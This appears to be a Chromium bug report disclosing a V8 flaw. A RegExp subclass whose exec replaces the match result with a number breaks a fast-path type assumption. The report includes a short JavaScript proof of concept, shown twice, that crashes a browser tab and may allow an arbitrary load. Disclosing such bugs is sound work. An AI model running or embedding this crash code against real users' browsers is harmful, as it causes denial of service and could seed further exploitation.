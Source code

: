 <b>VULNERABILITY DETAILS</b>

Executing the following JavaScript will cause a browser tab to crash.

```
class MyRegExp extends RegExp {
  exec(str) {
    const r = super.exec.call(this, str);
    r[0] = 0; // Value could be changed to something arbitrary
    return r;
  }
}

'a'.match(new MyRegExp('.', 'g'));
```

I believe the issue is because a code assumption is being broken:
https://cs.chromium.org/chromium/src/v8/src/builtins/builtins-regexp-gen.cc?l=1878-1879&rcl=fc27a8d63c94c91ede18fce3246fbba7aec54262

`r[0]` is assumed to be string object because it passed the "BranchIfFastRegExpResult" verification.  Unfortunately it isn't and I believe this ends up with an arbitrary load:

https://cs.chromium.org/chromium/src/v8/src/builtins/builtins-regexp-gen.cc?l=1879-1881&rcl=fc27a8d63c94c91ede18fce3246fbba7aec54262
https://cs.chromium.org/chromium/src/v8/src/builtins/builtins-regexp-gen.cc?l=1904&rcl=fc27a8d63c94c91ede18fce3246fbba7aec54262
https://cs.chromium.org/chromium/src/v8/src/builtins/builtins-regexp-gen.cc?l=1912&rcl=fc27a8d63c94c91ede18fce3246fbba7aec54262
https://cs.chromium.org/chromium/src/v8/src/code-stub-assembler.cc?l=1642-1647&rcl=fc27a8d63c94c91ede18fce3246fbba7aec54262

Although I don't think it's possible to get actual value of the load, you could detect whether it is a particular value or not (smi zero) depending on down stream side effects (regexp.lastIndex was incremented or not).

<b>VERSION</b>
Chrome Version: stable (65.0.3325.181), also verified on dev (67.0.3394.0) and latest version of Node.js (9.11.1)
Operating System: Mac OS X High Sierra 10.13.3

<b>REPRODUCTION CASE</b>

```
class MyRegExp extends RegExp {
  exec(str) {
    const r = super.exec.call(this, str);
    r[0] = 0; // Value could be changed to something arbitrary
    return r;
  }
}

'a'.match(new MyRegExp('.', 'g'));
```

<b>FOR CRASHES, PLEASE INCLUDE THE FOLLOWING ADDITIONAL INFORMATION</b>
Type of crash: tab
Crash ID: crash/9beff3f332dcbf6a
